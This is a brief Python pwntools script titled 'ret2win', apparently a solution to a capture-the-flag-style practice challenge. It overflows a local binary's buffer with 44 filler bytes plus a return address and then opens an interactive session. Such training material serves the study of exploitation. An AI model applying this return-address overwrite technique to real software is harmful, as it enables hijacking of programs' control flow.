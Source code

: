 # ret2win
  script
  
  #!/usr/bin/python3

  from pwn import *

  p = process("./ret2win32")

  junkdata = b"A" * 44
  addr = p32(0x08048645)

  payload = junkdata + addr
  p.sendline(payload)
  p.interactive()

